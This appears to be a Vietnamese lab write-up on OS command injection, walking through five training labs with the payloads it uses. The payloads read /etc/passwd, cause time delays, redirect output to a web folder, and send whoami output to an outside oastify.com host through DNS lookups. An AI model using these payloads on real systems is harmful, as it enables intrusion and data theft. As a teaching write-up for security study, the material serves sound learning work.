# OS Command Injection

Kẻ tấn công chèn được lệnh hệ điều hành vào input của ứng dụng, và server thực thi lệnh đó như thể đó là lệnh hợp lệ của chính hệ thống.

Thay vì dùng thư viện an toàn để xử lý tác vụ, developer lại ghép input người dùng thẳng vào lệnh shell.

```python
email = request.form['email']
os.system("sendmail -t " + email)
```

Nếu người dùng nhập **'x||nslookup abc123.oastify.com||'** thì lệnh thực tế chạy là:

```
sendmail -t x||nslookup abc123.oastify.com||
```

Shell thấy `||` và hiểu đó là toán tử logic, nó tách ra thành 3 lệnh riêng và chạy lần lượt.

Các toán tử shell khác:

- `|` : kết quả lệnh 1 là input lệnh 2
- `||` : lệnh 1 thất bại thì chạy lệnh 2
- `&` : chạy cả 2 lệnh
- `&&` : lệnh 1 thành công thì mới chạy lệnh 2
- `;` : chạy tuần tự

---

## Lab: OS command injection, simple case



Bài này chứa lỗ hổng chèn lệnh hệ điều hành trong trình kiểm tra kho sản phẩm.

Ứng dụng thực thi lệnh shell chứa sản phẩm do người dùng cung cấp và ID cửa hàng, đồng thời trả về kết quả thô từ lệnh trong phản hồi của nó.

Dùng lệnh `whoami` để xác định tên của người dùng.

Bắt request kiểm tra tồn kho để khai thác.



Ném sang Repeater để thử lệnh cơ bản như `;ls` và phát hiện nó có lỗ hổng ở **storeId**. Đề bài yêu cầu dùng lệnh **whoami** để lấy thông tin người dùng hiện tại.



Dùng lệnh `;cat+/etc/passwd` để đọc thêm tài khoản.



- `;` : dấu `;` là chạy xong lệnh rồi chạy tiếp lệnh sau `;`
- `ls` : xem file ở vị trí hiện tại
- `cat` : đọc file
- `+` : encode khoảng cách thành `+`
- `/etc/passwd` : file hệ thống chứa tài khoản

---

## Lab: Blind OS command injection with time delays



Phòng thí nghiệm này chứa lỗ hổng chèn lệnh hệ điều hành mù trong chức năng phản hồi.

Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi.

Để giải quyết vấn đề trong phòng thí nghiệm, hãy khai thác lỗ hổng tiêm lệnh mù của hệ điều hành để gây ra độ trễ 10 giây.

Lệnh trễ: **sleep 10** (đợi 10 giây rồi mới thực hiện lệnh tiếp)

Bài vẫn chứa lỗ hổng như bài trước ở tính năng 'feedback' nên tôi bắt request submit feedback để test payload `;sleep+10;` và phát hiện nó có lỗ hổng ở email, và có phản hồi trễ 10,325 millis.



---

## Lab: Blind OS command injection with output redirection



Phòng thí nghiệm này chứa lỗ hổng chèn lệnh hệ điều hành mù trong chức năng phản hồi.

Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Tuy nhiên, bạn có thể sử dụng chuyển hướng đầu ra để nắm bắt đầu ra từ lệnh.

Có một thư mục có thể ghi tại: `/var/www/images/`

Ứng dụng phục vụ hình ảnh cho danh mục sản phẩm từ vị trí này. Có thể chuyển hướng đầu ra từ lệnh được chèn sang một tệp trong thư mục này, sau đó sử dụng URL tải hình ảnh để truy xuất nội dung của tệp.

Để giải bài lab, hãy thực hiện lệnh **whoami** và truy xuất kết quả.

Lệnh ghi kết quả của lệnh và file: lệnh `>` file — ghi kết quả, nếu chưa tồn tại sẽ tạo mới.

Payload: `;iwhoami>/var/www/images/output.txt;`

**output.txt**: file chứa kết quả của lệnh `whoami`.



Sau khi gửi request có payload thì bắt request GET ảnh này để thay đổi url sang file đã được ghi ra ở trước.



Đây là endpoint dùng để đọc file từ thư mục `/var/www/images/` ta sẽ lợi dụng nó để đọc file `output.txt` vừa ghi.

Url: **/image?filename=output.txt**



---

## Lab: Blind OS command injection with out-of-band interaction

Lỗ hổng lợi dụng Server Lab gửi DNS query với domain khác.

Lệnh: `nslookup` (tra cứu DNS)



Vào 'Collaborator' để tạo domain rồi bắt request submit feedback để khai thác.

Ta được domain: `j8s2hqrysn2m3fx2yx4u940xyo4fs5gu.oastify.com`

Chèn payload: `;nslookup+j8s2hqrysn2m3fx2yx4u940xyo4fs5gu.oastify.com;` vào phần email rồi gửi và thành công.



---

## Lab: Blind OS command injection with out-of-band interaction (data exfiltration)

Bài này là lấy dữ liệu qua DNS query, như bài trước ta có domain đã tạo.

Payload để chạy lệnh và nối: `whoami` hoặc `$(whoami)` nối vào domain `j8s2hqrysn2m3fx2yx4u940xyo4fs5gu.oastify.com`

Payload khai thác:

```
;nslookup+`whoami`.j8s2hqrysn2m3fx2yx4u940xyo4fs5gu.oastify.com;
```

Sau khi gửi request sang tab Collaborator để xem kết quả của lệnh `whoami` đã được nối vào DNS query.

Kết quả: `Peter.IUK1cM`

